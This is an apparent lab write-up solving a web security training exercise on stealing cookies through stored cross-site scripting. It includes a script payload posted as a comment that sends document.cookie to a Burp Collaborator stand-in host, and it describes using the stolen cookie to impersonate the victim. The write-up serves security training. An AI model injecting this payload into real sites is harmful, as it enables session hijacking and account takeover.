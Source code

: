 # Lab: Exploiting cross-site scripting to steal cookies

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a0afb93c-f722-49d5-9595-30eefa78e77b)

## Solution

Go to burp collaborator, start it and click on **Copy to clipboard** to get a subdomain.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d7bb04d0-34b5-475b-9643-b93882161a25)

Use the following script and post it as a comment.

`<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>`

- `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { ... }) ` initiates a network request to the specified URL `(https://BURP-COLLABORATOR-SUBDOMAIN)`.

- `{ method: 'POST', mode: 'no-cors', body: document.cookie } ` specifies the options for the fetch request:
  - `method: 'POST'`: This indicates that the request will be sent using the HTTP POST method.
  - `mode: 'no-cors'`: This sets the request mode to 'no-cors', which means that the browser will make the request without including the CORS (Cross-Origin Resource Sharing) headers. This mode restricts the type of responses that can be received.
  - `body: document.cookie`: This assigns the value of document.cookie as the request body. document.cookie contains all the cookies associated with the current domain, including session cookies and other sensitive information.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/383327dd-6d00-441a-b025-2c9468d3a4be)

In burp collaborator, the cookie of the victim can be seen as request in **HTTP** type.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ab96562f-a57d-4b83-a829-dfb5872b3bbf)

Use the above acquired victim's cookie instead of our own to impersonate the victim and solve the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a24a368e-6e62-4931-b37d-fa177e1a770c)
